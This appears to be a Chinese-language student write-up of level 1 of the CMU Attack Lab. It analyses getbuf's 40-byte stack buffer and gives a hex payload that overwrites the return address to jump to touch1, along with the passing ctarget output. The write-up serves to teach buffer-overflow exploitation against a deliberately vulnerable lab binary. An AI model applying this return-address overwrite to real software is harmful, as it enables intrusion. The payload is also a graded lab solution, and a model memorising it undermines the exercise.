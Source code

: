 然后我们的任务是让getbuf执行其return语句时执行touch1的代码，然后需要进行查看getbuf函数才可以查看怎么进入touch1的代码。

```
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 ac 03 00 00          call   401b60 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      ret
  4017be:       90                      nop
  4017bf:       90                      nop
```

根据最初rsp的值我们可以发现getbuf的容量，该函数只能够输入0x28个字节换成10进制就是40个字节

首先分析怎么才能够进入到touch1函数，根据函数递归栈的原则，我们可以知道在进行调用下一个函数的时候，我们会将当前函数的下一条指令的地址值进行添加到栈中(也就是call指令的作用)。

然后进入到下一个函数在getbuf函数中，设置输入的数据的长度不能够大于40长度，也就是说我们输入的字符是从rsp-0x28的位置进行输入的，然后输入的字符串不断地向上进行覆盖，当我们输入的长度大于0x28的时候就会覆盖原来的函数的下一条指令。

根据上面的思想进行gdb的调试。



首先获取touch1函数的位置：00000000004017c0  （8字节）

分析到这里之后根据getbuf的rsp-0x28其中0x28对应十进制的40，我们可以发现缓冲区的大小是40，在这个范围内的数据可以任意填写，40之后的数据应该对应着touch1地址的位置，才能够进行跳转。

```c
void touch1() {
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

文件touch1(前40个字符是任意输入的)

```
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
c0 17 40 00 00 00 00 00
```

```
$ cat touch1 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 C0 17 40 00
```
